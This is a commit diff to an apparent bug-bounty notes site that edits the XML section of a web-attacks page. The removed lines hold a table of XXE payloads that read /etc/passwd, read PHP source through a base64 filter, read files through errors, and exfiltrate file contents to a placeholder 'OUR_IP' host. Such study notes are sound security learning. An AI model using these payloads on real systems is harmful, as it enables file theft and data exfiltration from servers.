

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/web-attacks.md, in a window 1280 px wide and 1400 px high, scrolled down 4257 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 4948 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
edit xml dtd section to web attacks page

````diff
--- a/docs/bug-bounty-guide/web-attacks.md
+++ b/docs/bug-bounty-guide/web-attacks.md
@@ -151,65 +151,24 @@ done
 
 ### XML
 
-
-
-| Key        | Definition                                                                 | Example                          |
-|------------|----------------------------------------------------------------------------|----------------------------------|
-| Tag       | The keys of an XML document, usually wrapped with </> characters.          | `<date>`                         |
-| Entity    | XML variables, usually wrapped with &/; characters.                        | `&lt;`                             |
-| Element   | The root element or any of its child elements, and its value is stored in between a start-tag and an end-tag. | `<date>01-01-2022</date>`         |
-| Attribute | Optional specifications for any element that are stored in the tags, which may be used by the XML parser. | `version="1.0"/encoding="UTF-8"`  |
-| Declaration | Usually the first line of an XML document, and defines the XML version and encoding to use when parsing it. | `<?xml version="1.0" encoding="UTF-8"?>` |
-
-### XML Document Type Definition (DTD)
-
-Defines an XML documents structure/can be validated against
-
-``` xml
-<!DOCTYPE email [
-  <!ELEMENT email (date, time, sender, recipients, body)>
-  <!ELEMENT recipients (to, cc?)>
-  <!ELEMENT cc (to*)>
-  <!ELEMENT date (#PCDATA)>
-  <!ELEMENT time (#PCDATA)>
-  <!ELEMENT sender (#PCDATA)>
-  <!ELEMENT to  (#PCDATA)>
-  <!ELEMENT body (#PCDATA)>
-]>
-```
-
-Referenced within the XML document itself
-
 ``` xml
 <?xml version="1.0" encoding="UTF-8"?>
-<!DOCTYPE email SYSTEM "email.dtd">
+<email>
+  <date>01-01-2022</date>
+  <time>10:00 am UTC</time>
+  <sender>john@inlanefreight.com</sender>
+  <recipients>
+    <to>HR@inlanefreight.com</to>
+    <cc>
+        <to>billing@inlanefreight.com</to>
+        <to>payslips@inlanefreight.com</to>
+    </cc>
+  </recipients>
+  <body>
+  Hello,
+      Kindly share with me the invoice for the payment made on January 1, 2022.
+  Regards,
+  John
+  </body>
+</email>
 ```
-or
-``` xml
-<?xml version="1.0" encoding="UTF-8"?>
-<!DOCTYPE email SYSTEM "http://inlanefreight.com/email.dtd">
-```
-Defining XML variables in DTD
-``` xml
-<?xml version="1.0" encoding="UTF-8"?>
-<!DOCTYPE email [
-  <!ENTITY company "Inlane Freight">
-]>
-```
-The above defined company variable can be referenced in the XML document like this: `&company;`
-Variables can also be referenced externally using the SYSTEM (or PUBLIC) keyword:
-``` xml
-<?xml version="1.0" encoding="UTF-8"?>
-<!DOCTYPE email [
-  <!ENTITY company SYSTEM "http://localhost/company.txt">
-  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
-]>
-```
-
-| Code | Description |
-|------|-------------|
-| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
-| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
-| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
-| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
-| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |
````
